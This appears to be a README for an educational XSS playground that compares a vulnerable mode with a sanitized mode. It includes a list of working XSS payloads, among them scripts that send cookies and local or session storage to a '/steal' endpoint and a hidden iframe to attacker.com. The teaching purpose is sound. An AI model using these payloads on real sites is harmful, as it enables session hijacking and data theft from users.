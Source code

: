 # JavaScript XSS Playground

This project demonstrates what XSS (Cross-site Scripting) is and how to prevent it using input sanitization. It is designed for educational purposes to help developers understand the risks of XSS attacks and the importance of secure coding practices.
<br></br>
<br></br>

**- testing the 1st tested payload**

![testing the 1st tested payload](https://imgur.com/TqDvpzu.png)
<br></br>

**- entering payloads in SECURED mode**

![entering payloads in SECURED mode](https://imgur.com/QNSfU2r.png)
<br></br>

**- after running server.js; enter the tested payload 4 and 5 into the text field**

![after running server.js; enter the tested payload 4 and 5 into the text field](https://imgur.com/UMWvQz3.png)
<br></br>

**- after entering see the stolen data from server.js console**

![after entering see the stolen data from server.js console](https://imgur.com/E4OOnXG.png)
<br></br>
<br></br>

## Features

- **Vulnerable Mode**: Simulates a working XSS vulnerability to demonstrate how attacks occur.
- **Secured Mode**: Shows how input sanitization can effectively prevent XSS attacks.
- **Toggle**: Easily switch between "Vulnerable" and "Secured" modes to compare behaviors.

## Concepts Learned

- Understanding XSS attacks and their impact.
- Implementing input validation and sanitization techniques.
- Recognizing the importance of secure coding practices.

## How to Use

1. Open `index.html` in a browser.
2. Enter some text in the input field and submit.
3. Toggle between "Vulnerable" and "Secured" modes to observe the difference in behavior.

## Testing the Project

1. Open `index.html` in a browser.
2. Use the following payloads in the input field to test XSS vulnerabilities:
   - `<img src="x" onerror="alert('XSS Attack!')">`
   - `<script>document.body.innerHTML = '<h1>Hacked by Attacker</h1>';</script>`
   - `<a href="https://www.youtube.com/" target="_blank">Click here</a>`
   - `<script>const img = document.createElement('img'); img.src = 'http://localhost:3000/steal?session=' + document.cookie; document.body.appendChild(img);</script>`
   - `<script>const data = { localStorage: JSON.stringify(localStorage), sessionStorage: JSON.stringify(sessionStorage) }; fetch('http://localhost:3000/steal', { method: 'POST', headers: { 'Content-Type': 'application/json' }, body: JSON.stringify(data) });</script>`
   - `<iframe src="http://attacker.com/steal-session" style="display:none;"></iframe>`
   - `<div id="target" onmouseover="alert('XSS via Event Listener')">Hover over me</div>`

3. Toggle between "Vulnerable" and "Secured" modes to observe how the application handles these payloads.

## Educational Purpose

This project is designed to educate developers about the risks of XSS attacks and the importance of input validation and sanitization. It provides hands-on experience with real-world attack scenarios and demonstrates effective prevention techniques.

## Disclaimer

This project is for educational purposes only. Do not use the vulnerable mode in a production environment. Always validate and sanitize user input to prevent malicious scripts from being executed.
